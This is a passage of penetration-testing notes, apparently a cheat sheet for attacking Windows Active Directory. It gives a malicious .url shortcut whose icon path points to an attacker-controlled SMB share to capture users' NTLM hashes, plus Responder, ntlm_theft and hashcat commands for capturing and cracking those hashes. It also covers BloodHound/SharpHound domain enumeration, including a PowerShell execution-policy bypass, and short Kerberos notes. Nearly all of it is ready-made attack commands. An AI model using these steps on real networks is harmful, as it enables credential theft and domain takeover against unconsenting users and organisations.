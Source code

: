 - File contents:
    
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\[attacker ip]\%USERNAME%.icon
IconIndex=1
- responder -I [interface] -v
    
  
[https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
ntlm_theft -s [attacker ip] -f [name] -g [all/url]
  
hashcat -m 5600 [hashes] [wordlist]
  
# BloodHound
[https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)
  
### Collection
- SharpHound.exe -c [method] -d [domain] --exclude-dcs --zipfilename sharp.zip
    
- bloodhound-python -c [method] -d [domain] -u [username] -p [password] --hashes [hash] -ns [DC] --zip -v
    
- Invoke-Bloodhound (from SharpHound.ps1)
    
- powershell -ep bypass
    
- . .\SharpHound.ps1
    
- Invoke-Bloodhound -CollectionMethod [method] -Domain [domain] -ExcludeDCs -ZipFileName [outfile]
    
  
- on first run: CollectionMethod ⇒ All
    
- on subsequent runs (to get updated session info): CollectionMethod ⇒ Session
    
- in BloodHound, click Database Info → Clear Sessions
    
  
### Analysis
- neo4j console
    
- bloodhound --no-sandbox
    
  
MATCH (m:Computer) RETURN m
MATCH (m:User) RETURN m
  
# Kerberos
Kerberos Authentication
![](https://lh7-us.googleusercontent.com/7w7p1r3z6LtvdD5MhOQ1K1sB9bWV-wt5KS4ov0osLxuYDBxD8KbeO5kyTAHSq4WkFRBYX-rp2EHso9NmjtoLPNn-SR79ViHMV_xouechY469ESKSFRwtDFSoZ1hkskB4on12wrFviakKew55NcOlSEc)
  
AS_REP ⇒ provides TGT ⁠– ticket to get other service tickets
- you can only have one TGT
    